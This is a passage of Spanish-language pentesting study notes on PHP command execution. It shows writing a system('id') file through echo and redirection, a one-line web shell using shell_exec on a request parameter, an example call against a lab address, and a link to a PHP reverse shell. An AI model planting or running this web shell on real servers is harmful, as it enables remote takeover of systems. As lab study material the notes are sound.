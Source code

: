     	Así que este texto:
    	
     	```bash
	  "<?php\nsystem('id');\n?>"
	```
 	
  	cuando se imprime realmente se ve así:

	```bash
 	<?php
	system('id');
	?>
	```
 	
  	
   	-3️⃣ > prueba.php
	
 		> redirige la salida del comando (el texto que echo imprime) a un archivo.

		En este caso, lo guarda en un archivo llamado prueba.php.

		Si el archivo ya existe, lo sobrescribe.
 
---

### 🔸 Ejemplo más flexible con `shell_exec`

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

Esta última opción permite ejecutar **comandos arbitrarios** pasados como parámetro `cmd` en la URL.

---

### 🌐 Ejemplo de uso

```text
http://172.17.0.2/<RUTA_DONDE_SE_ALOJA_EL_ARCHIVO>/<ARCHIVO_PHP>?cmd=<COMANDO>
```

Por ejemplo:

```text
http://172.17.0.2/uploads/shell.php?cmd=whoami
```

---

### ⚠️ Notas importantes

- No siempre se puede ejecutar directamente la reverse shell o el comando desde la propia página.
- En ocasiones es necesario **subir el script PHP adecuado** que te permita abrir la reverse shell o ejecutar comandos como se desee.

---

✅ Recurso recomendado para obtener un PHP reverse shell listo:

- [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

---


---

